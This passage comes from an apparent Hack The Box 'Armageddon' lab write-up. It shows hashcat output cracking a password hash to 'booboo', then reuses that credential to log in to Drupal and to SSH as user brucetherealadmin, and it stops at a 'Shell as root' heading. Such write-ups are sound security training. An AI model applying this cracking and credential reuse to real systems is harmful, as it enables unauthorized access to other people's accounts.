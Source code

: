 ```bash
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      344 H/s (8.28ms) @ Accel:32 Loops:1024 Thr:1 Vec:2
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 256/14344385 (0.00%)
Rejected.........: 0/256 (0.00%)
Restore.Point....: 128/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:31744-32768
Candidate.Engine.: Device Generator
Candidates.#1....: carolina -> freedom
Hardware.Mon.#1..: Util: 69%

Started: Tue Dec 31 12:18:57 2024
Stopped: Tue Dec 31 12:19:39 2024
```

The cracked password is `booboo`.
Let's try using it on `drupal` CMS.

Then, it worked, and I was redirected to the following page;

![](attachments/armageddon_4.png)

I enumerate through the web page, and googled if there's any exploit for this on the web, but nothing's found.

Instead, let me check if the credential is working on `ssh`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh brucetherealadmin@10.10.10.233                           
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

It worked! And I got `brucetherealadmin`'s shell!



# Shell as `root`
